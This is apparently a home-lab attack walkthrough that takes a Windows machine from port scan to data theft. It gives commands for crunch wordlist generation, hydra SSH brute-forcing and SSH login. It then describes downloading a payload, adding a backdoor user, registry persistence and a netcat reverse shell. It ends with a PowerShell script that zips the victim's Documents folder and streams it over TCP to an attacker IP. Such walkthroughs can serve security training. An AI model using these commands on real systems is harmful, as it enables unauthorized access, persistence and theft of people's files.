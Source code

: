 now we can see all the open ports like 22,135,139,445 which are vectors we can use to attack the victim but for now let select port 22 or ssh to brute force  attack it.to brute force ssh we will create word-list or use existing one like rockyou then use hydra tool which will give us the password and username.
to create word-list we will use
```shell
crunch 5 5 12345 -o wordlist.txt
```
and use hydra like this
```shell
hydra -l username -P Wordlist victimIP
```

![[Pasted image 20250901183111.png]]
now we know the user name and password let log in using ssh
```shell
ssh econt@192.168.1.2
```
enter the password and this will give us access to victim computer. let try to figure out our environment using commands like whoami, hostname etc
![[Pasted image 20250901183308.png]]
now we gain understanding of our surrounding let download our payload from GitHub to directory Temp .
![[Pasted image 20250901184356.png]]
Before we execute our payload let setup some backdoor like create our own user in victim machine.
![[Pasted image 20250901185236.png]]
as you can see we have created our own user.
![[Pasted image 20250901185303.png]]
know we created a backdoor let execute our payload but first let run a net cat listing port so we can establish reverse shell
![[Pasted image 20250901185654.png]]
after we started net cat let execute the payload
![[Pasted image 20250901191417.png]]
executing the payload does two things
1. it will add payload in registry so that we can connect anytime we want and
2. it will connect the attacker machine to power shell of the victim machine
after that let do action on objective which is we want to extract all file that are in victim machine document. we can do that using
```
nc -lvnp 4444 > exfil.zip #in attacker machine
```

```
Compress-Archive -Path C:\Users\econt\Documents\* -DestinationPath C:\temp\exfil.zip; 
$bytes = [System.IO.File]::ReadAllBytes('C:\temp\exfil.zip'); 
$client = New-Object System.Net.Sockets.TCPClient('192.168.1.8', 4444); 
$stream = $client.GetStream(); 
$stream.Write($bytes, 0, $bytes.Length); 
$client.Close()

```
